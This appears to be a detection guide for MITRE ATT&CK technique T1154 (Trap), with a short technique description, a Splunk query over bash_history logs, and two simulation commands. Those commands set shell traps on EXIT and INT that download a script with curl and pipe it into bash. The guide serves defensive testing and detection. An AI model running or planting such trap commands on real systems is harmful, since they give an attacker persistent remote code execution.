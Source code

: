 # T1154 - Trap
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1154)
<blockquote>The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.</blockquote>

# How to Detect  

## Simulating the attack 

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' EXIT
nohup is used for continuing program/script execution even after exit.

trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' INT

## Data sources required to detect the attack

bash_history logs 


## Splunk Queries to detect the attack

index=linux sourcetype=bash_history "trap *" | table host,user_name,bash_command

## Caution

